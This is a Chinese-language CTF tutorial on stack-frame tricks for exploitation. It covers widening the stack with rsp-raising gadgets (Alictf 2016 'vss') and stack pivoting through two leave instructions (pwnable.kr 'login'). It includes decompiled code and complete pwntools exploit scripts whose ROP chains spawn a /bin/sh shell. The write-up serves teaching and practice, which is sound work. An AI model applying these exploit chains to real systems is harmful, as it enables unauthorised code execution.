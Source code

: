 # 调整栈帧的技巧

在栈溢出相关问题上，可能会遇到溢出的字节数太小，ASLR导致的栈地址不可预测等问题。针对这些问题，我们有时候需要通过`gadgets`调整栈帧以完成攻击。常用的思路包括加减esp值，利用部分溢出字节修改ebp值并进行`stack pivot`等。

## 修改esp扩大栈空间

例，~/Alictf 2016-vss/vss
因为程序是静态编译，而且用了strip剥离符号，IDA载入后程序看起来很乱，我们先用一个简单的c程序静态编译后然后strip去掉符号，对比来看一下：

```shell
gcc -static -o test test.c

strip test

```

通过file命令可以查看文件的一些相关信息

![Alt](img/栈帧调整技巧1.png)

我们对比一下剥离后和未剥离的程序：

![Alt](img/栈帧调整技巧2.png)

可以发现其实差别就在于没有了函数名(单单只比较start处)，所以我们可以以此来找到程序的主函数：

![Alt](img/栈帧调整技巧3.png)

进入主函数之后，根据函数sub_4374E0()的函数体可以推测应该是alarm()函数，sub_408800()则为puts函数，猜测sub_437EA0()为read()函数，sub_40108E()用于对输入的处理和判断，将它更名为verify。

![Alt](img/栈帧调整技巧4.png)
![Alt](img/栈帧调整技巧5.png)

接下来在verify处下断，步入分析一下函数功能

![Alt](img/栈帧调整技巧6.png)
![Alt](img/栈帧调整技巧7.png)

因为有strnpy，所以我们可以通过输入构造溢出劫持verify的ret然后常规构造ROP链。进入到read函数我们可以发现是通过syscall来实现read函数的功能的。

![Alt](img/栈帧调整技巧8.png)

ROP链中除了read函数读取"/bin/sh"之外，还需要execve来执行它，64位环境下syscall由rax传递系统调用号，sys_execve的系统调用号为59(0x3B),sys_execve需要的参数：

```c++
sys_execve(char __user *,
  char __user *__user *,
  char __user *__user *,
  struct pt_regs *,)
// 第一个参数为传入的指令，即"/bin/sh"
// 调用示例(仅用汇编表示，并没有考虑语法正确性）：
    mov rdi,"/bin/sh"
    mov rax,59
    mov rsi,0
    mov rdx,0
    syscall
```

常规的ROP链构造需要解决的问题解决了，接下来就是解决如何劫持RIP到我们构造的ROP链，调试(或者通过汇编代码查看strncpy传入的参数：`mov edx,50h`)我们可以发现strncpy会复制我们输入内容的前0x50个字节，也就是说我们需要构造`py+0x48*'A'`来构造一个可控的溢出(字符串中不能有'\x00'因为会被strncpy截断，从而造成构造失败)。因为在main函数中的read函数限制输入长度为0x400，这意味着我们可以构造一个很长的输入而且read函数可以读取'\x00'。接下来我们就可以在verify的溢出点放置增加esp的指令，使verify函数执行结束后esp指向我们构造的ROP链。

脚本如下：

```python
    #!/usr/bin/python
    #coding:utf-8

    from pwn import *

    p = process('./vss')

    payload = ""
    payload += p64(0x6161616161617970)  #头两位为py,p64的结果长度为0x10(8字节)
    payload += 'a'*0x40
    payload += p64(0x46f205)  #add rsp, 0x58; ret，这里也可以是0x4167c3(add rsp, 0x70; pop rbx; ret)，或者其他抬升栈顶的指令，只要抬升字节大于等于0x50即可，然后根据抬升空间设置填充数据的大小
    payload += 'a'*8  #padding，因为rsp抬升了0x58，但是前面的数据为0x10+0x40=0x50,所以这里需要填充8字节的数据，才能使rsp指向我们构造的ROP链
    payload += p64(0x43ae29)  #pop rdx; pop rsi; ret 为sys_read设置参数
    payload +=p64(0x8)  #rdx = 8
    payload += p64(0x6c7079)  #rsi = 0x6c7079
    payload += p64(0x401823)  #pop rdi; ret 为sys_read设置参数
    payload += p64(0x0) #rdi = 0
    payload += p64(0x437ea9)  #mov rax, 0; syscall 调用sys_read
    payload += p64(0x46f208)  #pop rax; ret,设置sys_execve的系统调用号
    payload += p64(59)  #rax = 0x3b
    payload += p64(0x43ae29)  #pop rdx; pop rsi; ret 为sys_execve设置参数
    payload += p64(0x0) #rdx = 0
    payload += p64(0x0) #rsi = 0
    payload += p64(0x401823)  #pop rdi; ret 为sys_execve设置参数
    payload += p64(0x6c7079)  #rdi = 0x6c7079
    payload += p64(0x437eae)  #syscall

    print p.recv()
    p.send(payload)
    sleep(1)
    p.send('/bin/sh\x00')
    p.interactive()

```

## 栈帧劫持stack pivot

通过可以修改esp的`gadget`可以绕过一些限制，扩大可控数据的字节数，但是这种方式并不能得到一个完全可控的栈。这时候就需要用到`stack pivot`了。
`stack pivot`主要是通过leave指令来完成对栈的劫持。先了解一下`leave`的效果，这条指令等价于`mov esp,ebp; pop ebp`。我们可以通过两次`leave`指令，来将ebp转化为esp，下面通过`~/pwnable.kr-login/login`说明。
程序逻辑比较简单，而且预留了后门程序。

```c++
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    int v4; // [esp+18h] [ebp-28h]
    char s; // [esp+1Eh] [ebp-22h]
    unsigned int v6; // [esp+3Ch] [ebp-4h]

    memset(&s, 0, 0x1Eu);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 1, 0);
    printf("Authenticate : ");
    _isoc99_scanf("%30s", &s);
    memset(&input, 0, 0xCu);
    v4 = 0;
    v6 = Base64Decode(&s, &v4);
    if ( v6 > 0xC )
    {
      puts("Wrong Length");
    }
    else
    {
      memcpy(&input, v4, v6);
      if ( auth(v6) == 1 )
        correct();
    }
    return 0;
  }

  _BOOL4 __cdecl auth(int a1)
  {
    char v2; // [esp+14h] [ebp-14h]
    char *s2; // [esp+1Ch] [ebp-Ch]
    int v4; // [esp+20h] [ebp-8h]

    memcpy(&v4, &input, a1);
    s2 = (char *)calc_md5(&v2, 12);
    printf("hash : %s\n", (char)s2);
    return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
  }
```

调试我们发现并不能通过输入产生溢出进而劫持eip，但是auth函数结束到main函数结束，会经历两个leave

![Alt](img/stack-pivot1.png)

我们先看第一次执行leave，第一次执行结束后，ebp的内容为ret上一个字节的内容：

![Alt](img/stack-pivot2.png)

接着执行retn(即函数执行结束，此时esp和ebp的值并不会改变)。返回到调用者函数继续执行指令(正常情况下，过程中esp的值和ebp的值不变)，到达leave指令时：

![Alt](img/stack-pivot3.png)

从以上过程我们可以看到，虽然不能通过溢出劫持eip，但是我们可以通过两次leave来将ebp转化为esp，从而达到劫持栈的目的。所以我们可以构造一个输入，来达到这个目的：
`payload = "aaaa" + p32(0x08049284) + p32(0x0811eb40)`,其中`0x08049284`是执行`system("/bin/sh")`的地址， `0x0811eb40`是程序中input变量的.bss段首址

![Alt](img/stack-pivot4.png)

第一次执行leave时，将`.bss`段(&input)的地址放到ret前，使指令结束后ebp指向.bss段。然后第二次执行leave指令时，就可以将esp指向`.bss`段的首址，然后leave执行结束后，`esp+4`指向我们布置的`system("/bin/sh")`。到此，就达到了将ebp转换为esp从而劫持栈的目的。
完整脚本如下：

```python
  #! /bin/usr/python
  # coding=utf-8

  from pwn import *
  from base64 import *

  p = process('./login')

  payload = "aaaa" + p32(0x08049284) + p32(0x0811eb40)
  payload = b64encode(payload)

  p.sendline(payload)
  p.interactive()
```
